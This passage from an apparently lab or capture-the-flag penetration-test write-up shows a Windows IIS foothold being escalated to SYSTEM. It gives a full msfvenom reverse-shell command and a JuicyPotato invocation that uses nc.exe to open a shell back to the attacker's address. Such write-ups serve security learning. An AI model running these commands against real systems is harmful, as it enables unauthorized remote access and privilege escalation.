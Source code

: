 3. I started a netcat listener and loaded the shellcode to initiate a reverse shell as the `iis apppool\web` user.

   ```http
   http://10.10.10.5/shell.aspx
   ```

   ![image-20201108220019315](.Report.assets/image-20201108220019315.png)

4. I checked the user's privileges and noticed it has the SeImpersonatePrivilege:
   ![image-20201108220208018](.Report.assets/image-20201108220208018.png)

5. I created a reverse shell payload for windows:

   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.37 LPORT=8000 -f exe -o win_revtcp_8000.exe
   ```
   
6. I transferred the 32-bit JuicyPotato exploit (obtained from here: https://github.com/ivanitlearning/Juicy-Potato-x86) and nc.exe to the target to take advantage of the SeImpersonatePrivilege and escalate privileges to SYSTEM.  I ran juicypotato with netcat to get a reverse shell as SYSTEM

   ```bash
   JuicyPotatox86.exe -l 1337 -p c:\coyote\nc.exe -a "-nv 10.10.14.37 8000 -e cmd.exe" -t * -c {659cdea7-489e-11d9-a9cd-000d56965251}
   ```

   ![image-20201109170536913](.Report.assets/image-20201109170536913.png)
